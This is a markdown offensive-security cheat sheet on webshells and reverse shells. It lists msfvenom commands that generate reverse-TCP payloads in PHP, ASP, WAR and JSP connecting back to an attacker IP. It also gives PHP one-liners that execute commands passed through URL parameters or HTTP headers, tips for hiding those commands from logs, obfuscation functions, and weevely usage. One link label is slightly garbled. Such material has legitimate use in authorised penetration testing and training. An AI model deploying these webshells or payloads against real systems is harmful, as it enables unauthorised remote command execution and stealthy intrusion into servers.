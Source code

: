 # Webshells

## Reverse-Shells

### Great Collection of Different Types of Reverse Shells and Webshells

* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/shells/reverse-sthe hell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Webshells - Platform Independent

* a webshell is a shell that you can access through the web
* useful for when you have firewalls that filter outgoing traffic on ports other than port 80
* more stealthy since the traffic is hidden in the http traffic.

## PHP

### This PHP-shell is OS-Independent. Inject into Pages that Use PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### Execute One Command

```bash
<?php system("whoami"); ?>
```

### Take Input from the URL Parameter... shell.php?cmd=whoami

```bash
<?php system($_GET['cmd']); ?>
```

### The Same as Above but Using Passthru

```bash
<?php passthru($_GET['cmd']); ?>
```

### For shell\_exec to Output the Result, Echo it

```bash
<?php echo shell_exec("whoami");?>
```

### Return the Output as an Array, and then Print it All

```bash
<?php exec("ls -la",$array); print_r($array); ?>
```

### This is a Cool Trick

```bash
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

### Using Backticks

```bash
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

```bash
<?php `echo whoami`; ?>
```

### Execute the Commands Like This

```bash
[http://192.168.1.103/index.php?cmd=pwd](http://192.168.1.103/index.php?cmd=pwd)
```

## ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

## WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

## Access to Different Webshells on Kali

```bash
/usr/share/webshells
```

## Make it Stealthy

* we can make the commands from above a bit more stealthy
* instead of passing the cmds through the url, which will be obvious in logs, we pass them through other header-paramters
* tampterdata, burpsuit, netcat or curl to insert the commands

```bash
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

```bash
<?php system($_SERVER['HTTP_USER_AGENT'])?>
```

```bash
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

## Obfuscation

### The Following Functions Can be Used to Obfuscate the Code

```bash
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

## Weevely - Incredible tool!

* weevely can create php webshells easily
* weevely generates password /root/webshell.php

### Now Execute it and Get a Shell in Return

```bash
weevely "[http://192.168.1.101/webshell.php](http://192.168.1.101/webshell.php)" password
```

## References

* [http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/](http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
* [http://www.binarytides.com/web-shells-tutorial/](http://www.binarytides.com/web-shells-tutorial/%5Estage)

